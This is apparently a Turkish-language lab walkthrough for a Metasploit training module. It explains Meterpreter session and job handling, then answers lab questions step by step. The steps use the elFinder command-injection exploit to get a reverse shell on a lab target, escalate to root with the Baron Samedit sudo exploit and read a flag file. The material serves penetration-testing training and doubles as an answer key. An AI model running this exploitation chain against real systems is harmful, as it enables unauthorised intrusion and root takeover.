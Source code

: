 ```yaml
---
icon: material/help
---
```


# Sessions

## Using Sessions

Meterpreter içerisinde ++control+z++ tuş kombinasyonu ile veya `background` komutunu çalıştırarak mevcut oturumu arka plana taşıyabiliriz. Bu işlemin ardından dilersek farklı bir modül ile çalışabiliriz.

### Listing Active Sessions

```text
sessions
```

```text title="Output"
Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
```

### Interacting with a Session

```text
sessions -i 1
```

```text title="Output"
[*] Starting interaction with 1...

meterpreter >
```

## Jobs

Belirli bir port altında aktif olarak çalışan bir exploit varsa ve bu porta farklı bir modül için ihtiyaç duyuluyorsa ++control+c++ tuş kombinasyonu ile oturumu sonlandıramayız. Bunun yapılması portu kullanılabilir hale getirmez.

Bunun yerine, arka planda çalışan aktif görevlere bakmak için `jobs` komutunu kullanmak ve daha sonra ilgili portu boşa çıkarmak için eski görevleri sonlandırmak gerekir.

### Running an Exploit as a Background Job

```text
exploit -j
```

```text title="Output"
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

### Listing Running Jobs

Çalışan tüm işleri listelemek için aşağıdaki komut kullanılabilir:

```text
jobs -l
```

```text title="Output"
Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

Belirli bir işi sonlandırmak için ilgili işin index bilgisi kullanılabilir:

```text
kill 0
```

## Questions

```text
The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?
```

??? tip "Steps"

    Web tarayıcısında [http://10.129.203.52](http://10.129.203.52) adresine gittikten sonra sayfa kaynağını görüntüleyerek istenilen cevaba ulaşabilirsin.

```text
Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?
```

??? tip "Steps"

    Öncelikle Msfconsole aracını başlat:

    ```bash
    sudo msfconsole -q
    ```

    Aşağıdaki aramayı gerçekleştir:

    ```text
    search elfinder
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan:

    ```text
    use exploit/linux/http/elfinder_archive_cmd_injection
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 10.129.203.52
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.14.87
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Aşağıdaki komutu çalıştır:

    ```bash
    whoami
    ```

    Cevabı edindikten sonra shell penceresini çıkış yap ve Meterpreter oturumunu arka plana taşımak için aşağıdaki komutu kullan (bir sonraki soruda bu oturumu kullanmamız gerekecek, o yüzden Msfconsole da açık kalmalı):

    ```text
    background
    ```

```text
The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.
```

??? tip "Steps"

    Öncelikle aşağıdaki aramayı gerçekleştir:

    ```text
    search sudo
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan. Bu modül ile `root` kullanıcısı olabileceğiz:

    ```text
    use exploit/linux/local/sudo_baron_samedit
    ```

    Bu soruyu çözebilmek için önceden edindiğimiz oturumu kullanacağız. Bu oturuma ait index bilgisini aşağıdaki komut ile öğren:

    ```text
    sessions
    ```

    ```text title="Output"
    Active sessions
    ===============

      Id  Name  Type                   Information               Connection
      --  ----  ----                   -----------               ----------
      1         meterpreter x86/linux  www-data @ 10.129.203.52  10.10.14.87:4444 -> 10.129.203.52:41988 (10.129.203.52)
    ```

    SESSION değerini ayarla:

    ```text
    set SESSION 1
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.14.87
    ```

    Exploit başlat:

    ```text
    run
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Flag dosyasının konumunu bulmak için aşağıdaki komutu çalıştır:

    ```bash
    sudo find / -name flag.txt -type f 2> /dev/null
    ```

    ```text title="Output"
    /root/flag.txt
    ```

    Bulunan dosyanın içeriğini görüntülemek için aşağıdaki komutu çalıştır:

    ```bash
    cat /root/flag.txt
    ```
